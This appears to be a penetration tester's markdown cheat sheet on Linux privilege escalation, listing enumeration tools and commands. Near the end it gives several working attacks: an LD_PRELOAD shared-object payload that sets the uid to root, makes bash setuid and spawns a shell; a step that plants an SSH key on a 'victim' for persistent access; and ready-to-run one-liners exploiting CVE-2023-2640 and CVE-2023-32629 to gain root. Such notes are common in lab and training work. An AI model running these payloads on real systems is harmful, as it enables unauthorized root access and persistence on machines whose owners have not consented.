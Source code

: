```yaml
---
title: Linux
---
```


# Linux Privilege Escalation
## Enum tools
- [Lin Peas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
- [pspy](https://github.com/DominicBreuker/pspy)
- [Lin Enum](https://github.com/rebootuser/LinEnum)
- [RustScan](https://github.com/RustScan/RustScan)

## Resources
- [gtfobins](https://gtfobins.github.io/gtfobins/ssh/)
- [hacktricks (linux)](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-path-abuses)
- [hacktricks (windows)](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation)

## Enum Basics
### Current logged user
```bash
whoami
```

### Current user groups
```bash
id
```

### Machine's domain name                                 
```bash
hostname
```

### OS version
```bash
cat /etc/os-release
```

### Kernel version
```bash
uname -a
```
```bash
cat /proc/version
```

### Additional host info
```bash
lscpu
```

### Network interfaces
```bash
ifconfig
```
```bash
ip addr
```

### Routing table
```bash
netstat -rn
```
```bash
route
```

### Arp table (other hosts)
```bash
arp -a
```

### Drives and shares
```bash
lkblk
```

### Mounts
```bash
cat /etc/fstab
```

### Mounted file systems
```bash
df -h
```

### Unmounted file systems
```bash
cat /etc/fstab | grep -v "#" | column -t
```

### What can we run as root?
```bash
sudo -l
```

### Is path misconfigured?
```bash
echo $PATH
```

### Environment variables
```bash
env
```

### Available shells
```bash
cat /etc/shells
```

### Existing users
```bash
cat /etc/passwd
```

### Existing groups
```bash
cat /etc/group
```

### Which users are in the sudo group?
```bash
getent group sudo
```

### Find all writable directories
```bash
find / -path /proc -prune -o -type d -perm -o+w 2>/dev/null
```

### Find all writable files
```bash
find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null
```

### Find all hidden files for user
```bash
find / -type f -name ".*" -exec ls -l {} \; 2>/dev/null | grep $USER
```

### Find all hidden directories
```bash
find / -type d -name ".*" -ls 2>/dev/null
```

### Find temporary files
```bash
ls -l /tmp /var/tmp /dev/shm
```

## Things to look for
- Commands that contain credentials like `mysql -ptest123` get leaked in `ps`, use `pspy`
- Search for hashes/credentials, often in backups or configs

## Misc notes

### .so loading
```c
#include <unistd.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("chmod u+s /bin/bash");
    system("/bin/bash -i");
}
```

```bash
gcc -fPIC -shared -o extension.so extension.c -nostartfiles
```

```bash
bash -p
```

### ssh private key

```bash
# victim
ssh-keygen -t rsa -b 4096
cat ~/.ssh/id_rsa.pub >> ~/.ssh/authorized_keys

# Host
## copy key to host
chmod 600 /path/to/id_rsa_custom
ssh -i /path/to/id_rsa_custom user@target_machine_ip
```

## CVEs

### CVE-2023-2640 | CVE-2023-32629

```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("id")'
# Or
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*; u/python3 -c 'import os;os.setuid(0);os.system(\"id\")'"
```
